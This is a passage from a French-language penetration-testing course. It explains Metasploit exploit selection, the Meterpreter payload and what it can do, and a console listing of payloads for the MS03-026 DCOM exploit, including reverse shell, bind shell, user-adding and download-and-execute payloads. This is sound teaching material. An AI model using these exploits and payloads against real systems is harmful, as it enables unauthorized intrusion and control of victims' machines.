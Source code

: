 Une fois que nous avons sélectionné l’exploit que nous voulons utiliser, une nouvelle fenêtre apparaît qui va nous permettre d’entrer les informations nécessaires, comme l’adresse IP de la victime, le port de la victime, notre adresse IP...

Bien sûr, les informations à fournir diffèrent suivant l’exploit selectionné.![images/04EP10.png](https://www.eni-training.com/download/e6942060-4181-4dd7-bce3-601625551eb9/images/04EP10.png?id=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAE1FbmkuRWRpdGlvbnMuTWVkaWFwbHVzLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJ0VuaS5FZGl0aW9ucy5NZWRpYXBsdXMuQ29tbW9uLldhdGVybWFyawIAAAAHcGlzVGV4dAlwaWR0ZURhdGUBAA0CAAAABgMAAAA0Um90ZW4gQ8OpZHJpYyAtIGNlNmMyNzBjLWU3NjMtNDYwZC05MzZlLTc3ZmZhMTBmMjAzYUAn10qU0tiICw%3d%3d)

Quand l’exploit est lancé, et s’il réussit, nous avons comme dans l’exemple ci-dessus une information « \[\*\] Shell started on session 1 ».

Une fenêtre VNC apparaît alors si l’exploit a fonctionné.![images/04EP11.png](https://www.eni-training.com/download/e6942060-4181-4dd7-bce3-601625551eb9/images/04EP11.png?id=AAEAAAD%2f%2f%2f%2f%2fAQAAAAAAAAAMAgAAAE1FbmkuRWRpdGlvbnMuTWVkaWFwbHVzLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJ0VuaS5FZGl0aW9ucy5NZWRpYXBsdXMuQ29tbW9uLldhdGVybWFyawIAAAAHcGlzVGV4dAlwaWR0ZURhdGUBAA0CAAAABgMAAAA0Um90ZW4gQ8OpZHJpYyAtIGNlNmMyNzBjLWU3NjMtNDYwZC05MzZlLTc3ZmZhMTBmMjAzYUAn10qU0tiICw%3d%3d)

#### d. Meterpreter Payload

Meterpreter est un payload multifonction avancé qui va nous fournir un shell basique à partir duquel nous pourrons ajouter les fonctions désirées pour notre exploit.

Meterpreter est un payload car il permet d’avoir un shell particulier qui va vous permettre de n’envoyer que la partie utile de vos messages \(commandes\) sans encapsulation des en-têtes du protocole TCP/IP par exemple.

Meterpreter est très pratique parce qu’il nous proposera un shell meterpreter qui va nous permettre bien plus d’actions qu’un payload classique. Nous pourrons lancer à partir du shell meterpreter un shell bash, déposer ou télécharger des fichiers, des exécutables, faire des dumps mémoire…

```text

msf > use msrpc_dcom_ms03_026  
msf msrpc_dcom_ms03_026 > show payloads  
Metasploit Framework Usable Payloads  
====================================  
win32_adduser  
win32_bind  
win32_bind_dllinject  
win32_bind_meterpreter  
win32_bind_stg  
win32_bind_stg_upexec  
win32_bind_vncinject  
win32_downloadexec  
Windows Execute net user /ADD  
Windows Bind Shell  
Windows Bind DLL Inject  
Windows Bind Meterpreter DLL Inject  
Windows Staged Bind Shell  
Windows Staged Bind Upload/Execute  
Windows Bind VNC Server DLL Inject  
Windows Executable Download and Executewin32_exec  
Windows Execute Command  
win32_passivex  
Windows PassiveX ActiveX Injection Payload  
win32_passivex_meterpreter  
win32_passivex_stg  
Windows Staged PassiveX Shell  
win32_passivex_vncinject  
win32_reverse  
Windows PassiveX ActiveX Inject Meterpreter Payload  
Windows PassiveX ActiveX Inject VNC Server Payload  
Windows Reverse Shell  
```